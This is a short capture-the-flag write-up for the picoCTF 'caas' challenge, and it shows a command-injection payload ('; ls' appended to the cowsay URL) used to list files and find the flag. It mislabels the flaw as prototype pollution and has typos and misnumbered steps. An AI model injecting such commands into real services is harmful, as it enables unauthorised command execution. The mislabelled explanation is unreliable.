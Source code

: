 # Web Exploitation --> caas.
This is [Link-Lab](https://play.picoctf.org/practice/challenge/202?category=1&page=2).
# Solve caas.
1- Open url --> `https://caas.mars.picoctf.net/`, and check it --> then trace file `index.js`
<br />

2- search about `Cowsay as a Service` --> you will find --> `Prototype Pollution`, and wirte any thing after the url --> `https://caas.mars.picoctf.net/cowsay/asd`.
<br />

![0](screenshots/0.png)
<br />

2- Then add new parameter --> `https://caas.mars.picoctf.net/cowsay/asd; ls`.
<br />

![1](screenshots/1.png)
<br />

3- then capture the file `falg.txt`.
<br />

![2](screenshots/2.png)
<br />